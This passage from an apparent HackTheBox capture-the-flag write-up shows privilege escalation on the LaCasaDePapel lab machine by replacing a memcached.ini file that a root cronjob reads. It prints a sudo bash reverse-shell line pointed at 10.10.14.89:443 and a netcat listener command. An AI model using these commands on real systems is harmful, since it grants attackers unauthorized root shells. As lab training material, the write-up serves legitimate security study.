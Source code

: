 This to me looks like a cronjob, and I wanted to see who might be running it. So I listed the running processes on the system using `ps auxww`. This didn't reveal the true user who is running the cronjob, but it reveal something else:

![ps-aux-29](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/LaCasaDePapel/img/ps-aux-29.png)


We can see that `root` is running whatever cronjobs might be in `/etc/crontabs`. And if we list this directory we can see only one directory belonging to `root`:

![crontabs-30](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/LaCasaDePapel/img/crontabs-30.png)


Therefore the cronjobs must be running as `root`. 


To exploit this, we need to overwrite the `memcached.ini` file, but it's owned by root and we don't have permissions to it. So what I did instead, was to rename the original file using the following command:

```bash
mv memcached.ini memcached.ini.bak
```


Effectively making a backup. Then, I created a new `memcached.ini` file as such:

```bash
echo '[program:memcached]' > memcached.ini
echo 'command = sudo /bin/bash -c "bash -i >& /dev/tcp/10.10.14.89/443 0>&1"' >> memcached.ini
```

Next I started my local listener using:

```bash
rlwrap nc -lnvp 443
```

And after a couple of seconds I receive the connection from `root`:

![root-31](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/LaCasaDePapel/img/root-31.png)
